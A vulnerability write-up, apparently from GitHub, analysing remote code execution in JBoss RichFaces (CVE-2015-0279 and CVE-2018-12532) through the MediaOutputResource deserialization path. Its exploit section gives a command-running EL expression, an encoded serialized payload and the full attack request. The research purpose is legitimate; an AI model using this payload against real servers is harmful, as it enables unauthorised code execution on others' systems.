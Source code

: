 ## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)



#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)



> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)



#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.



### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final

Look for `MediaOutputResource`:

![image-20200403120539022](images/image-20200403120539022.png)

So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.





### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> <img src="images/image-20200403170908356.png" alt="image-20200403170908356" style="zoom: 50%;" />



It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:

<img src="images/image-20200404170908347.png" alt="image-20200404170908347" style="zoom:50%;" />

<img src="images/image-20200404170926471.png" alt="image-20200404170926471" style="zoom:50%;" />

Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.

<img src="images/image-20200404174051025.png" alt="image-20200404174051025" style="zoom:50%;" />

<img src="images/image-20200406211010528.png" alt="image-20200406211010528" style="zoom:50%;" />

`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler]()

At the step of restoring a state of resource, in this case, `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```



Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```

![image-20200410002420187](images/image-20200410002420187.png)

- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.

![image-20200410004340262](images/image-20200410004340262.png)



#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encrypting functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`





### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)

<img src="images/image-20200410165221092.png" alt="image-20200410165221092" style="zoom: 33%;" />

EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```



#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf

